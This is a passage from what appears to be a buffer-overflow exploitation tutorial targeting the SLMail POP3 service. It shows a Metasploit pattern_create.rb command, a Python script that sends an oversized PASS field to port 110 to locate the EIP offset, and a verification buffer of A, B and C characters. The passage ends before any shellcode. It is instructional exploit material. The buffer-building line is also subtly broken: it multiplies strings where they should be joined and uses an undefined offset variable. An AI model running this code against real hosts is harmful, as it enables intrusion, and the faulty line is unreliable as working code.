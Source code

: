     Upon causing a crash, note down the length of the buffer required to cause the crash.

4. Determine what part of the message ends up being written to the EIP register. This can be done using the `pattern_create.rb` file in the metasploit tools directory. This will create a unique string that will allow you to see how many characters are required to make it into the program counter.

    ```bash
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb <buffer length>
    ```

    Now copy and paste this into your python script.

    ```python
    # SLMail Tutorial
    import socket
     
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
     
    buffer = "<paste-here>"
     
    try:
        print "Sending unique buffer of %s bytes" % len(buffer)
        s.connect(('<address>', 110))
        data = s.recv(1024)
        s.send('USER user ' + '\r\n')
        data = s.recv(1024)
        s.send('PASS ' + buffer + '\r\n')
        data = s.recv(1024)
        s.close()
    except:
        print "Could not connect to POP3 for some reason..."
    ```

    Finally, inspect immunity debugger and note the characters in the EIP register. Cross reference with the pasted buffer to determine the offset.

    Note: `pattern_create.rb` has a sister tool called `pattern_offset.rb` that can help you to determine the offset.


5. Now that you know start of the part of the message that overflows into the program counter, verify that it's correct by sending a buffer made of "A"s, "B"s and "C"s. The "A"s represent the data that consumes the stack, the "B"s represent the return address and the "C"s represent the arbitrary shellcode to be executed.

    You can easily create this buffer using python:
      
    ```python
    crash_length = <length>
    eip = "BBBB"
    buffer = "A" * offset + eip * "C" * (crash_length - offset - len(eip)) 
    ```

6. Once you've verified that the offset is correct, you have to find a way to get an instruction into the program counter that will jump to the top of the stack and begin executing your arbitrary shell code. 
  